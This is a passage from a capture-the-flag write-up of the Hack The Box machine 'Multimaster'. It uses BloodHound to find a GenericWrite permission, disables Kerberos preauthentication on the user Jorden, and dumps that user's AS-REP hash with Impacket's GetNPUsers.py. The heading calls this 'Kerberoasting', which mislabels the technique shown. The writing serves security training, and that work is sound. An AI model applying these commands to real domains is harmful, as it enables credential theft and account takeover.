 Importing the json files into BloodHound we can map out the domain.

![Bloodhound Domain](/assets/htb/Multimaster/bloodhound-overview.png)

Mapping out the domain trust we see that `SBauer` has write permissions over `Jorden`. Jorden is member of the `Server Operator` group.

![Bloodhound Sbauer Permission](/assets/htb/Multimaster/bloodhound-permissions.png)

#### Kerberoasting Jorden

As we have `GenericWrite` over `Jorden` we can change the `does not require preauth option`, which makes the account susceptible to Kerberoasting.

```powershell
*Evil-WinRM* PS C:\Users\sbauer\Documents> Get-ADUser Jorden | Set-ADAccountControl -doesnotrequirepreauth $true
```

Now we can get the TGT of the user using Impackets [GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py).

```bash
root@darkness:~# GetNPUsers.py MEGACORP/jorden -format hashcat -no-pass -dc-ip 10.10.10.179
Impacket v0.9.22.dev1+20200513.101403.9a4b3f52 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for jorden
$krb5asrep$23$jorden@MEGACORP:bf2ccdb347ff395a1d6a7ea9248121b8$43c4a929a6fb3917a04c33a329acbd59667aa84c134a38eaeb2d962e542280525c197345e46c5562afb57a5fae3d09e514979dc39a152011e986e44d642ba9c39dc602006611e03af1a281fe2433b0cdfccd2589b5c722404a2c76d0eea7a219d0a7f5a8c73a492a36510e498f3b0cd49abde7d1b36168bbfc68a385544676d5960a1233baefd0649bf554a6bc943cd37bda7239c97bb35026d7ea7203aa977bdc4fc83f605a598de1c69bb6ccbb856996cb2a560b3f9961732d7464395c60666638c9d8ef450c401d40c1b377287cffc9ae221852c6498249144ee25e7fdb78eba780097392804de935
```
